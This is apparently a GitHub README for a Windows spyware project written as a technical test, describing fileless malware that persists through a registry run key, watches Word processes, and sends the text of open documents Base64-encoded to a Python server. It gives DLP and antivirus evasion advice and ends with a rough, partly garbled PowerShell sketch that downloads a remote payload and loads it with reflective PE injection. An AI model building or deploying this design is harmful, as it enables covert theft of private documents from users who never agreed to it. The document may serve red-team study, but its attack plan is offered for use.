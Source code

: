 # winwordexfil

Novartis technical test

Write code for Windows 10 that:

    - Is persistent (survives reboots).
    - It is as file-less as possible (should leave a minimal amount of code on disk, for as little time as possible).
    - Requires as little privileges as possible.
    - Searches for Word processes and extracts all text written (both for already open documents and for new Word instances).
    - Send the gathered data to a server.
    
 


cuando dropeas: haces persistencia, lanzas watcher

haces persistencia (a nivel usuario) que es una entrada en el registro para que se ejecute al inicio de sesión 

pendiente -> watcher para ver cuando se abre el world

exfiltrar el contenido de los documentos abiertos --> basic dlp evasion encoding in base64. more advanced techniques like adding cypher.

https://community.spiceworks.com/how_to/163884-getting-data-from-a-word-document-using-powershell

https://medium.com/@riffsandhacks/data-exfiltration-bypassing-a-misconfigured-dlp-to-exfiltrate-sensitive-data-1236989c76c1

https://stackoverflow.com/questions/52074362/how-to-connect-powershell-script-to-an-already-opened-document




## Exfiltration http server

A simple python http server has been developed serving the payload for the fileless attack implementing GET method and receiving the exfiltration data through POST requests. The main code for the implementation comes from following link with the addition of other functionalities like serving files and creating files with decoded exfiltrated data.
<https://gist.github.com/mdonkers/63e115cc0c79b4f6b8b3a6b797e485c7>

During the first execution (infection) or when the computer is rebooted the payload is loaded from the server into memory executing it.

![](./img/get-request.png)

When the software fins that WinWord process starts, it send each 30 seconds the list of words to the server by a POST request encoding data y Base64. The server receives those data and created a file into disk with decoded data.

![](./img/post-request.png)

![](./img/server-file.png)

![](./img/open-file.png)

## Enhancements

It is necessary to mention here that there are a huge number of features that can be added for AV bypassing and make more difficult possible forensics tasks

The software implements a basic bypass of possible DLP protections the exfiltrated data is encoded in Base64 before sending to the server. A better approach can be cyphering the payload with dynamic keys encryption gotten from the server.

The PowerShell code is not obfuscated in any way making easier the comprehension of the reader. A useful tool to do that is for example <https://github.com/danielbohannon/Invoke-Obfuscation>





in order to create a better malware or wanted to use other techniques reflectivePEInjection can be used



IEX((New-Object System).DowloadString powershell infoKe-ReflectivePEInjection.ps1)
$b = downloadstring(executable.bin)
$c system.convert::frombase64string($b)
Invoke-ReflectivePEInjection -PEBytes $c   /indicanto el proceso al que quieres ir



process dll injection to hook windows api call 



Microsoft MSHTML Remote Code Execution Vulnerability